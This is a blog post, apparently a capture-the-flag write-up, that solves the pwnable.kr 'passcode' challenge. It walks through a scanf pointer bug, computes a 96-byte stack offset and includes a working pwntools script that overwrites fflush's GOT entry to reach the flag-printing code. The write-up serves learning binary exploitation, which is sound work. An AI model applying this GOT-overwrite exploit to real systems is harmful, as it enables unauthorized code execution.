





---

layout: post
title: Pwn-A-Day Day-4
description: "Pwn challenges for a Month"
date: 2020-05-04
feature_image: images/pwn_a_day/front.png
tags: [Pwn-A-Day]
published: true

---


<!--more-->

Today I will show you 2 more challenges from this [site](http://pwnable.kr/play.php)

# Day 4

## Name - Passcode

So we are give with 3 files as usual lets look at the souce code

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

Did you noticed something unusual ,
the **scanf** function right??

```c
scanf("%d", passcode1);
scanf("%d", passcode2);
```
So there should be a `&` sign infront of variable names denoting the address of the variable 

Lets checkout the disassembly of 3 function shown in code above

Main Function



Nothing to note here this just calls the *welcome* and *login* functions

Welcome Function



So we can see the stack location in the disassembly its `ebp-0x70`

Here we can see instruction lea performed on edx and ebp-0x70. We can translate it just as load the effective address (calculate it) and store in the edx register. From that information, we know that variable ebp-0x70 is the name variable.
Login Function




But here, unlike *name* buffer we don’t calculate the address of the variable passcode1, we just use it’s value with `mov edx,DWORD PTR [ebp-0x10]`. All the same with passcode2 - `mov edx,DWORD PTR [ebp-0xc]`.

Since name buffer and passcode1 are relatively close to each other we can overflow the buffer to modify the value of passcode1, so lets calculate the offset

```
offset=(ebp-0x70)-(ebp-0x10)
offset=96
```

so we can supply arbitrary 96 bytes followed by the required value of passcode1 in hex but there is no  way to modify the value of passcode2 because our input is restricted to 100 bytes so anything after 100 bytes will not be read ,so we have two option either to **bruteforce** the passcode2 or overwrite the **GOT entry of fflush function**as it is immediatly executed after scanf for passcode1 

U can read about GOT and PLT [here](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

lets look for the address of fflush in the GOT table using `objdump -R <binary-name>` 



So we can form our payload as 96 'A's followed by fflush address followed by the address to point to which can be *0x080485d7* as it prints the login successful message followed by the flag 

I have shown my exploit below

```python
from pwn import *
ssh_connect=True
# context.log_level="debug"
if ssh_connect:
	server = ["pwnable.kr", 2222, "passcode", "guest"]
	ssh_handle=ssh(host=server[0],port=server[1],user=server[2],password=server[3])
	p=ssh_handle.process("./passcode")
else:
	elf=ELF("./passcode")
	p=elf.process()

fflush=0x0804a004
system=0x080485d7


p.recv()

payload="A"*96
payload+=p32(fflush)
payload+=str(system)

p.sendline(payload)

print p.recvall()

```
Finally the exploit in action!


